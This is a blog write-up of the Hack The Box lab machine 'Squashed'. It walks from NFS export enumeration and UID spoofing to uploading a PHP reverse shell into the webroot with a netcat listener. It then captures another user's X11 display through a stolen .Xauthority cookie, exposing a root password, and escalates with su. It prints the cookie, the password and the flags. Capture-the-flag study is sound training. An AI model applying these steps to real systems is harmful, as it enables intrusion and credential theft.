




+++
title = "Squashed"
date = "2024-01-07"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2022-11-10

**Created by**: [polarbearer](https://app.hackthebox.com/users/159204) & [C4rm3l0](https://app.hackthebox.com/users/458049)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.30`, while the target machine's IP address will be `10.10.11.191`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Squashed using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.11.191 -p-
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37207/tcp open  unknown
47697/tcp open  unknown
53663/tcp open  unknown
59293/tcp open  unknown
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the service associated with the open ports we found.

```sh
❯ nmap -sS 10.10.11.191 -p 22,80,111,2049 -sV
```

```
<SNIP>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     3-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Okay, so `nmap` determined that Squashed is running Linux, and the SSH version suggests that it might be Ubuntu.

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.11.191 -p 22,80,111,2049 -sC
```

```
<SNIP>
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http
|_http-title: Built Better
111/tcp  open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      35858/udp   mountd
|   100005  1,2,3      43771/tcp6  mountd
|   100005  1,2,3      45065/udp6  mountd
|   100005  1,2,3      47697/tcp   mountd
|   100021  1,3,4      37207/tcp   nlockmgr
|   100021  1,3,4      42853/tcp6  nlockmgr
|   100021  1,3,4      44169/udp   nlockmgr
|   100021  1,3,4      45440/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs
<SNIP>
```

The only interesting information I see is that the HTTP title of the web server running on port `80/tcp` is 'Built Better'.

Let's start by investigating the NFS server.

## NFS (port `2049/tcp`)

### Exports

Let's get the list of all exports for Squashed.

```sh
❯ showmount -e 10.10.11.191
```

```
/home/ross    *
/var/www/html *
```

Okay, so the `/home/ross` and `/var/www/html` folders are accessible by all machines.

### Exploring `/home/ross`

Let's mount this folder on our machine.

```sh
❯ mount -t nfs 10.10.11.191:/home/ross /workspace/nfs/ross -o nolock
```

Now let's get its content.

```sh
❯ tree -a /workspace/nfs/ross
```

```
/workspace/nfs/ross
├── .Xauthority
├── .bash_history -> /dev/null
├── .cache  [error opening dir]
├── .config  [error opening dir]
├── .gnupg  [error opening dir]
├── .local  [error opening dir]
├── .viminfo -> /dev/null
├── .xsession-errors
├── .xsession-errors.old
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos
<SNIP>
```

We got a few errors, because most of the directories are actually owned by a user with ID `1001`.

To circuvment this problem, I'll simply create a dummy user with this ID, and change to it.

Now let's run the previous command once again:

```sh
❯ tree -a /workspace/nfs/ross
```

```
/workspace/nfs/ross
├── .Xauthority
├── .bash_history -> /dev/null
├── .cache
│   ├── bijiben
│   │   ├── CacheStorage
│   │   │   └── salt
│   │   └── WebKitCache
│   │       └── Version 16
│   │           ├── Blobs
│   │           └── salt
│   ├── bijiben-shell-search-provider
│   ├── event-sound-cache.tdb.8e7b2e7692df48faa4e42d6cfc791ed2.x86_64-pc-linux-gnu
│   ├── evolution
│   │   ├── addressbook
│   │   │   └── trash
│   │   ├── calendar
│   │   │   └── trash
│   │   ├── mail
│   │   │   └── trash
│   │   ├── memos
│   │   │   └── trash
│   │   ├── sources
│   │   │   └── trash
│   │   └── tasks
│   │       └── trash
├── <SNIP>
├── .viminfo -> /dev/null
├── .xsession-errors
├── .xsession-errors.old
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos
```

Now there's much more output!

If we look at it more closely, we find two interesting files: `.Xauthority` and `Passwords.kdbx`.

### Enumerating `.Xauthority`

Let's parse the content of this file using `xauth`.

```sh
❯ xauth -f /workspace/.Xauthority
```

```
xauth> list
squashed.htb/unix:0  MIT-MAGIC-COOKIE-1  a97630fd57d4782539f7f5b2c3a76e9b
```

It contains a 'MIT-MAGIC-COOKIE-1'.

In fact, this cookie is used as a form of authentication to ensure that only authorized clients can display windows on the X11 server.

This means two things. First, `ross` is probably connected on the machine and using the X11 server. Second, we should be able to access `ross`'s display!

### Enumerating `Passwords.kdbx`

Let's try to open `Passwords.kdbx` using KeePassXC.



Predictably, we're asked to enter a password. Unfortunately, common ones don't work.

### Hash cracking

Let's extract the password hash from the `.kdbx` file:

```sh
❯ keepass2john /workspace/nfs/ross/Documents/Passwords.kdbx > /workspace/keepass.hash
```

```
! /workspace/nfs/ross/Documents/Passwords.kdbx : File version '40000' is currently not supported!
```

We got an error... looks like a dead end.

### Exploring `/var/www/html`

Let's mount this folder on our machine.

```sh
❯ mount -t nfs 10.10.11.191:/var/www/html /workspace/nfs/html -o nolock
```

Now let's get its content.

```sh
❯ tree -a /workspace/nfs/html
```

Nothing...

In fact, the whole directory is owned by the user with ID `2017`, and belongs to the `www-data` group.

To circuvment this problem, I'll use the same technique as before.

Now let's run the previous command once again:

```sh
❯ tree -a /workspace/nfs/html
```

```
/workspace/nfs/html
├── .htaccess
├── css
│   ├── .DS_Store
│   ├── animate.min.css
│   ├── bootstrap-grid.css
│   ├── bootstrap-grid.css.map
│   ├── bootstrap-grid.min.css
│   ├── bootstrap-grid.min.css.map
│   ├── bootstrap-reboot.css
│   ├── bootstrap-reboot.css.map
│   ├── bootstrap-reboot.min.css
│   ├── bootstrap-reboot.min.css.map
│   ├── bootstrap.css
│   ├── bootstrap.css.map
│   ├── bootstrap.min.css
│   ├── bootstrap.min.css.map
│   ├── default-skin.css
│   ├── font-awesome.min.css
│   ├── icomoon.css
│   ├── jquery-ui.css
│   ├── jquery.fancybox.min.css
│   ├── jquery.mCustomScrollbar.min.css
│   ├── meanmenu.css
│   ├── nice-select.css
│   ├── normalize.css
│   ├── owl.carousel.min.css
│   ├── responsive.css
│   ├── slick.css
│   └── style.css
├── images
│   ├── banner-bg.png
│   ├── bg-1.png
│   ├── contact-bg.png
│   ├── fb-icon.png
│   ├── footer-logo.png
│   ├── header-bg.png
│   ├── icon-1.png
│   ├── icon-2.png
│   ├── icon-3.png
│   ├── icon-4.png
│   ├── img-1.png
│   ├── img-2.png
│   ├── img-3.png
│   ├── img-4.png
│   ├── img-5.png
│   ├── img-6.png
│   ├── img-7.png
│   ├── img-8.png
│   ├── img-9.png
│   ├── instagram-icon.png
│   ├── left-arrow.png
│   ├── linkedin-icon.png
│   ├── logo.png
│   ├── quote-icon.png
│   ├── right-arrow.png
│   ├── search-icon.png
│   └── twitter-icon.png
├── index.html
└── js
    ├── bootstrap.bundle.min.js
    ├── custom.js
    ├── jquery-3.0.0.min.js
    ├── jquery.mCustomScrollbar.concat.min.js
    ├── jquery.min.js
    ├── plugin.js
    └── popper.min.js
```

There's a few files, likely used by the web server on port `80/tcp`.

It's probably easier to explore the web server first though.

## Apache (port `80/tcp`)

Let's browse to `http://10.10.11.191/` and see what we get.


This looks like a website about a design company named 'Built Better'. Most of the web page content is 'Lorem ipsum' though, so we can't learn more at the moment.

### HTTP headers

Let's check out the HTTP response headers when we request the homepage.

```sh
❯ curl http://10.10.11.191/ -I
```

```
HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 09:39:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Tue, 27 Dec 2022 15:35:01 GMT
ETag: "7f14-5f0d0fec87768"
Accept-Ranges: bytes
Content-Length: 32532
Vary: Accept-Encoding
Content-Type: text/html
```

The `Server` confirms confirms what we already discovered: Squashed is running Apache version `2.4.41`.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and libraries like jQuery.

### Exploration

I tried to browse the website, but the navbar links are not set. Same for the 'Login' button and the search functionality.

I also tried to fill the contact form and the newsletter subscription form, but they're not set either.

### Site crawling

Let's crawl the website to see if I there's interesting linked web pages.

```sh
❯ katana -u http://10.10.11.191/
```

```
<SNIP>
[INF] Started standard crawling for => http://10.10.11.191/
http://10.10.11.191/
http://10.10.11.191/js/custom.js
http://10.10.11.191/js/owl.carousel.js
http://10.10.11.191/js/jquery-3.0.0.min.js
http://10.10.11.191/js/popper.min.js
http://10.10.11.191/js/jquery.mCustomScrollbar.concat.min.js
http://10.10.11.191/js/jquery.min.js
http://10.10.11.191/js/bootstrap.bundle.min.js
http://10.10.11.191/css/owl.carousel.min.css
http://10.10.11.191/css/owl.theme.default.min.css
http://10.10.11.191/css/jquery.mCustomScrollbar.min.css
http://10.10.11.191/css/responsive.css
http://10.10.11.191/css/style.css
http://10.10.11.191/index.html
http://10.10.11.191/css/bootstrap.min.css
http://10.10.11.191/js/plugin.js
```

The `custom.js` file could be interesting... but I checked it, and it isn't.

### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u http://10.10.11.191/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php
```

```
<SNIP>
[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 25ms]
| URL | http://10.10.11.191/css
| --> | http://10.10.11.191/css/
    * FUZZ: css

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 2486ms]
| URL | http://10.10.11.191/images
| --> | http://10.10.11.191/images/
    * FUZZ: images

[Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 24ms]
| URL | http://10.10.11.191/js
| --> | http://10.10.11.191/js/
    * FUZZ: js

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 23ms]
| URL | http://10.10.11.191/.php
    * FUZZ: .php

[Status: 200, Size: 32532, Words: 13031, Lines: 581, Duration: 24ms]
| URL | http://10.10.11.191/
    * FUZZ: 

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 24ms]
| URL | http://10.10.11.191/server-status
    * FUZZ: server-status
<SNIP>
```

We find nothing interesting, except that PHP files are probably executed.

# Foothold (RCE)

Let's not waste too much time trying to find new functionalities on the web server. We discovered [previously](#exploring-var-www-html) that we have access to a `/var/www/html` folder, probably used by the Apache web server. If this is the case, we could upload our own PHP files and get RCE this way!

## Check

First, let's check if the source code we found really corresponds to the web server's source code.

```sh
❯ cat /workspace/nfs/html/index.html
```

```html
<SNIP>
<title>Built Better</title>
<SNIP>
```

It has the same title. If we look the source code of the Apache homepage and compare it with the one we found, we see that they are the same! It's safe to assume that we really got access to the source code of the web server.

## Preparation

Our goal is to obtain a reverse shell.

First, I'll setup a listener on port `9001`.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Now, let's create the PHP file to get the reverse shell. I'm going to use the 'PHP Ivan Sincek' one from [this website](https://www.revshells.com/), configured to use a `sh` shell. The payload is more than 100 lines long, so I won't include it here.

I'll save it in `/workspace/nfs/html` as `revshell.php`.

## Exploitation

The PHP file should now be present on the web server. We only need to execute it by browsing to it!

```sh
❯ curl http://10.10.11.191/revshell.php -s
```

```
connect to [10.10.14.30] from (UNKNOWN) [10.10.11.191] 43466
SOCKET: Shell has connected! PID: 2114
```

It worked!

This shell is quite limited though, so let's execute a Python one-liner to transform it into an interactive one:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
alex@squashed:/var/www/html$
```

That's better!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `alex`.

## Distribution

Let's see which distribution Squashed is using.

```sh
alex@squashed:/var/www/html$ lsb_release -a
```

```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.5 LTS
Release:        20.04
Codename:       focal
```

So this is Ubuntu 20.04.3, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Squashed's architecture?

```sh
alex@squashed:/var/www/html$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Squashed is vulnerable to a kernel exploit?

```sh
alex@squashed:/var/www/html$ uname -r
```

```
5.4.0-131-generic
```

Unfortunately, the kernel version is recent too.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
alex@squashed:/var/www/html$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
<SNIP>
-rw-r--r--   1 root root   896 Nov  5  2021 lightdm-guest-session
-rw-r--r--   1 root root  1313 Apr 12  2020 lsb_release
-rw-r--r--   1 root root  1108 Apr 12  2020 nvidia_modprobe
-rw-r--r--   1 root root  3461 Jun 21  2022 sbin.dhclient
-rw-r--r--   1 root root  3202 Feb 25  2020 usr.bin.man
-rw-r--r--   1 root root 28376 May 11  2022 usr.lib.snapd.snap-confine.real
-rw-r--r--   1 root root   540 Apr 10  2020 usr.sbin.cups-browsed
-rw-r--r--   1 root root  5797 May 27  2022 usr.sbin.cupsd
-rw-r--r--   1 root root   672 Feb 19  2020 usr.sbin.ippusbxd
-rw-r--r--   1 root root  1575 Feb 11  2020 usr.sbin.rsyslogd
-rw-r--r--   1 root root  1385 Dec  7  2019 usr.sbin.tcpdump
```

All of these profiles are classic.

## NICs

Let's gather the list of connected NICs.

```sh
alex@squashed:/var/www/html$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:56:32 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.191/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:5632/64 scope global dynamic mngtmpaddr 
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::250:56ff:feb9:5632/64 scope link 
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Squashed's hostname?

```sh
alex@squashed:/var/www/html$ hostname
```

```
squashed.htb
```

Yeah I know, very surprising.

## Local users

Let's enumerate all the local users that have a console.

```sh
alex@squashed:/var/www/html$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
alex
ross
```

So there's `alex` (us), but also `ross` and `root`.

## Local groups

Let's retrieve the list of all local groups.

```sh
alex@squashed:/var/www/html$ getent group | cut -d: -f1 | sort
```

```
adm
alex
audio
avahi
backup
bin
bluetooth
cdrom
colord
crontab
daemon
dialout
dip
disk
fax
floppy
fwupd-refresh
games
geoclue
gnats
input
irc
kmem
kvm
landscape
lightdm
list
lp
lpadmin
lxd
mail
man
messagebus
netdev
news
nogroup
nopasswdlogin
operator
plugdev
proxy
pulse
pulse-access
render
root
ross
rtkit
saned
sasl
scanner
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

## User account information

Let's see to which groups we currently belong.

```sh
alex
```

Unfortunately we don't belong to the `lxd` group, but to the default group for our user.

## Home folder

If we check our home folder, we find the user flag. Let's retrieve its content:

```sh
alex@squashed:/var/www/html$ cat ~/user.txt
```

```
d552fc7e1aa8aac1a9ad35bec57f1641
```

## Displays

Before continuing our enumeration of the box and falling in rabbit holes, let's check if we can access `ross`'s display using the `.Xauthority` file we discovered [earlier](#enumerating-xauthority).

First, we need to find the list of connected displays.

```sh
alex@squashed:/var/www/html$ w
```

```
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               09:36   50:55   7.25s  0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

As we suspected, the `ross` user is connected and using the display `:0`.

## `ross`'s display screenshot

Let's transfer the `.Xauthority` file to the machine.

Once this is done, we should be able to use it to take a screenshot of `ross`'s display

```sh
alex@squashed:/var/www/html$ XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -d :0 -out /tmp/screenshot.xwd
```

```
<SNIP>
```

Now let's transfer it to our machine.

There's still one small issue: the file is in the XWD format, so we can't really read it. We have to conver it first.

```sh
❯ convert /workspace/screenshot.xwd /workspace/screenshot.png
```

Now let's open it.



So `ross` has KeepassXC open. It's probably the `Passwords.kdbx` database we found [earlier](#enumerating-passwords-kdbx)!

We see that it contains a single entry named 'System'. Fortunately, the username `root` and the password `cah$mei7rai9A` are visible!

# Privilege escalation (`root` impersonation)

We discovered in the [TCP port scanning](#tcp-port-scanning) section that Squashed accepts connections over SSH. Let's try these credentials to connect as `root`!

```sh
❯ ssh root@10.10.11.191
```

```
The authenticity of host '10.10.11.191 (10.10.11.191)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.191' (ED25519) to the list of known hosts.
root@10.10.11.191's password:
Permission denied, please try again.
```

Unfortunately, it doesn't work.

Let's go back to our reverse shell and try to directly impersonate `root` then.

```sh
alex@squashed:/var/www/html$ su -
```

```
Password: cah$mei7rai9A
root@squashed:~#
```

It worked!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag!

As usual, we can find it in our home folder.

```sh
root@squashed:~# cat ~/root.txt
```

```
8fc362d55b1482e29e9968e2984151d4
```

# Afterwords



That's it for this box! I found the foothold to be really clever and interesting. The privilege escalation was a bit hard to perform, as it was the first time I had to mess with the X11 windowing system, but I learned a lot.

Thanks for reading!